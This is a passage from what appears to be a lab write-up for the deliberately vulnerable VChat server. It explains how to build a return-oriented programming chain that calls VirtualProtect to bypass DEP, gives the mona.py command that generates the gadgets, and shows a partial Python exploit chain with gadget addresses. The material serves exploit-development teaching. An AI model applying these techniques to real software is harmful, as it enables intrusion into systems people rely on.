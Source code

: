       * We need to load the `EDI` register with the address of a `RETN` instruction. This is due to the fact the first word following the `ESP pointer` will be used as the address we jump to, since the `EDI` register will be this value it is easiest to chain to `RETN` instructions together in order to bypass this problem.
      * The `ESI` register will hold the address of the `VirtualProtect(...)` function so the second `RETN` instruction will jump to the desired location. 
      * The `EBP` register will need to contain the Address the `VirtualProtect(...)` function will jump to on completion. 
      * The `ESP` register will be the value of the `ESP` before all of the operations used to modify the stack, as we can see from the actions it will take listed above. This will be the argument that controls the `lpAddress` value which specify the start point of the memory region we would like to modify the permissions of. 
      * The `EBX` register will be the value of `dwSize` which specifies the size of the region we would like to modify the permissions of.
      * The `EDX` register will contain the value of the `flNewProtect` argument which represents the permissions we would like to place on the memory region we have specified.
      * The `ECX` register will contain the value of the `lpflOldProtect` argument which is the address the old status and permissions of the memory region we have specified will be written.
      * The `EAX` register would normally be empty, however we will want to ensure it does not write invalid instructions onto the stack which would crash the program and prevent the exploit from executing; so we can write a series of NOP instructions (0x90) onto the stack, as this is a 32 bit program we will need to write four NOP instructions into the register to fill it.

   3. We can use the following command provided by [mona.py](https://github.com/corelan/mona) to generate the chain for us. The resulting chains will be located in `rop_chains.txt`, if there are missing gadgets they could be located in `rop.txt` or `rop_suggestions.txt`. These will be located in the working directory for the mona.py program and Immunity Debugger, in my case this was in the directory `C:\Users<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`. You can also use the command `!mona config -set workingfolder c:\logs\E10` to set the folder our output will be stored in.

   ```
   !mona rop -m *.dll -n
   ```
   * `-m *.dll`: Search through all dll files when building ROP chains.
   * `-n`: Ignore all modules that start with a Null Byte.

4. We can try executing this ROP chain by modifying the program to reflect the [exploit1.py](./SourceCode/exploit1.py) program. Below is the function in the `rop_chain.txt` function.

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/84a9e576-4c96-48e7-a2cd-d242f148c27d

      ```
      def create_rop_chain():
         # rop chain generated with mona.py - www.corelan.be
         rop_gadgets = [
            #[---INFO:gadgets_to_set_esi:---]
            0x7699cfcf,  # POP ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
            0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x77083491,  # MOV ESI,DWORD PTR DS:[ESI] # ADD AL,0 # MOV EAX,8007007F # RETN 0x18 [KERNELBASE.dll] ** REBASED ** ASLR 
            #[---INFO:gadgets_to_set_ebp:---]
            0x770988dc,  # POP EBP # RETN [KERNELBASE.dll] ** REBASED ** ASLR 
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x625014e6,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x77508b1d,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR 
            0xfffffdff,  # Value to negate, will become 0x00000201
            0x7692da18,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
            0x769a80d2,  # XCHG EAX,EBX # RETN [RPCRT4.dll] ** REBASED ** ASLR 